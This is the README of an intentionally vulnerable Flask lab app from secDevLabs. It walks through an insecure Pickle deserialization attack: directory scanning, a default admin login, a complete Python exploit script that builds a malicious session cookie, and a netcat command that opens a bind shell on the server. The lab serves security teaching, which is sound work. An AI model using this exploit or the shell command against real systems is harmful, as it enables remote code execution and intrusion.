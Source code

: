 # Amarelo Designs

[Acessar conteúdo em Português](README_PT_BR.md)

<p align="center">
    <img src="images/Amarelo-Designs.png"/>
</p>

This is a simple web application built with Flask that contains an example of an Software and Data Integrity Failure vulnerability and, its main goal is to describe how a malicious user could exploit a vulnerability, intentionally installed on Amarelo Designs from secDevLabs, to obtain blind remote code execution.

## Index

- [Definition](#what-is-software-&-data-integrity-failure)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Software and Data Integrity Failure?

Serialization is the process of translating data structures or object state, into a format that can be stored or transmitted and reconstructed later. Insecure deserialization often leads to remote code execution. Even if deserialization flaws do not result in remote code execution, they can be used to perform attacks, including replay attacks, injection attacks, and privilege escalation attacks.

The main goal of this app is to discuss how **Software and Data Integrity Failure** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][docker install] and [Docker Compose][docker compose install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2021-apps/a8/amarelo-designs
```

```sh
make install
```

Then simply visit [localhost:10008][app] ! 😆

## Get to know the app 🎨

To properly understand how this application works, you can follow these simple steps:

- Visit the homepage!
- Have a look at the portfolio

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Use of an insecure deserialization function allows for remote code execution

It's possible to reach the server's web application from the HTTP port 10008, as shown by the image below:

<img src="images/attack1.png" align="center"/>

Making use of the [Dirb] tool to search for webpages and a common directories [wordlist], we were able to find `/user`, `/admin` and `/console`, as shown by the picture below: (If you want to install Dirb for Mac OS, be sure to click [here][4])

```sh
$ dirb http://localhost:10008 ./../../../docs/common.txt
```

<p align="center">
    <img src="images/attack2.png"/>
</p>

When accessed, the `/admin` page exposes an authentication screen, as depicted by the image:

<p align="center">
    <img src="images/attack3.png"/>
</p>

### 🔥

A quick test utilizing `admin` as the credentials for the `Username` and `Password` fields, gives us acess to an Admin Dashboard, as shown below:

<img src="images/attack4.png" align="center"/>

Now, using [Burp Suite] as proxy to intercept the login request, we can see that the app returns a session cookie, `sessionId`, as depicted below:

<img src="images/attack5.png" align="center"/>

After decoding the cookie, which is in base64, the following structure was found:

<img src="images/attack6.png" align="center"/>

The structure found is very similar to the ones created with the [Pickle] function. We can be certain of that by having a look at the app's [code][3]. The hint is now confirmed, the app uses Pickle, as we can see from the image below:

<img src="images/attack7.png" align="center"/>

If an attacker knew that the app uses `Pickle` as the serialization method, he/she could create a malicious cookie to take advantage of it and execute code remotely. An example of an exploit (serializaPickle.py) in Python 3 that could produce this cookie could be:

```python
import pickle
import os
import base64
import sys
import requests

cmd = str(sys.argv[1])
url = str(sys.argv[2])


class Exploit(object):
    def __reduce__(self):
        return (os.system, (cmd, ))


pickle_result = pickle.dumps(Exploit())

result = str(base64.b64encode(pickle_result), "utf-8")

print(result)
print(cmd)
print(url)

cookie = {'sessionId': result}

print(cookie)

r = requests.get(url, cookies=cookie)
```

To be certain that the app is exploitable, we will send a sleep command to make the app unresponsive for 10 seconds. If the app takes 10 seconds to return our request, then it's confirmed, the app is exploitable. As we can see from the image below, the app takes some time to return our request, thus confirming that it is exploitable and confirming the remote code execution:

```sh
$ python3 serializaPickle.py "sleep 10" http://localhost:10008/user
```

<img src="images/attack9.png" align="center"/>

To show how an attacker could have access to the server through an RCE, we will use the code depicted on the image below to create a bind shell on the server's 9051 port.

```sh
$ python3 serializaPickle.py "nc -lvp 9051 -e /bin/sh" http://localhost:10008/user
```

<img src="images/attack10.png" align="center"/>

The code used above creates a bind shell on the server's port 9051, which is then listening for incoming connections. After that, the attacker can connect to that port using a simple [netcat] command, as shown below:

```sh
$ nc localhost 9051
```

<p align="center">
    <img src="images/attack11.png"/>
</p>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

- Execute code remotely through a serialization vulnerability

## PR solutions

[Spoiler alert 🚨] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Amarelo+Designs%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10008
[secdevlabs]: https://github.com/globocom/secDevLabs
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2021-apps/a8/amarelo-designs
[dirb]: https://tools.kali.org/web-applications/dirb
[burp suite]: https://en.wikipedia.org/wiki/Burp_suite
[3]: https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2021-apps/a8/amarelo-designs/app/app.py
[pickle]: https://docs.python.org/2/library/pickle.html
[netcat]: https://en.wikipedia.org/wiki/Netcat
[4]: https://github.com/globocom/secDevLabs/blob/master/docs/Dirb.md
[wordlist]: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt

